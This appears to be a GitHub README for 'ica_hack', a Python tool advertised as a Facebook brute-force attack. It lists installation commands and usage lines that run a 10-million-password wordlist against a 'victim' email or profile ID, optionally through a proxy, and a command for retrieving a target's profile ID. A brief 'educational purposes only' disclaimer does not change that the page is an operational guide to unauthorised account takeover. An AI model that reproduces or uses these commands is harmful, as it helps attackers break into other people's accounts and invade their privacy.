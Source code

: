 
###### Powerfull Facebook Bruteforce Attack.
***
### <p align="center">Commands to run tool in ur terminal Termux && Kali Linux
***

 ```bash
Note : Tool is Made of Educational Purposes only.
       Please try not to harm anyone device 
       it's For Fun Purpose Not For Revenge

```
## Language is used to Make this tool
- Python
  
## The Tool is for :
- Windows
- Kali Linux
- Android~Termux
- macOs
- any Os has python(2.x, 3.x) with required modules

###### Installation
```bash
apt update && apt upgrade -y
```
```bash
apt install git -y
```
```bash
git clone https://github.com/ICA-REX/ica_hack.py.git
```
```bash
cd ica_hack
```
```bash
bash setup
```
```bash
python ica_hack.py
```

## usage :-
  - **U can Use Victim email Or Facebook Profile Id**:
  
  - **Brute Force On Facebook Account Without proxy**:
  
  * **Command**: python ica_hack.py -t victim@gmail.com -w 10MPASS.txt
  
  - **Brute Force On Facebook Account With Proxy**:
   
    * **Command**: python ica_hack.py -t victim@gmail.com -w 10MPASS.txt -p 144.217.101.245:3123
    
    - **Get Target Facebook Profile ID**:
  
   
    * **Command**: python ica_hack.py -g https://www.facebook.com/rexit
  
